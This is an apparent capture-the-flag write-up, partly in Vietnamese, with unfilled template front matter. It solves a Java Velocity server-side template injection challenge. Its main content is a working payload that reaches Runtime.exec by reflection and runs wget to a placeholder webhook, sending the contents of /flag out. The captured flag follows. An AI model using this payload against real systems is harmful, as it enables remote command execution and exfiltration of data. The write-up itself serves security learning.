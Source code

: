 ```yaml
---
title: TITLE
date: 'XXXX-XX-XX'
draft: false
authors: ['AUTHOR']
tags: ['XXX', 'YYY']
summary: 'XXX'
canonical: ''
---
```


## TITLE

## Table of Contents

1. [Source](#Source)
2. [Solution](#Solution)

## Main Content

Check web thấy `Hello velocity`, check wappalyzer Java -> velocity SSTI 
Payload: 
```py
choices-single-defaul=Category' or 1=1 -- -&search=#set($a="ddd");$a.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("sh -c wget${IFS}Your-webhook?$(cat${IFS}/flag)")
```

```
FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}
```
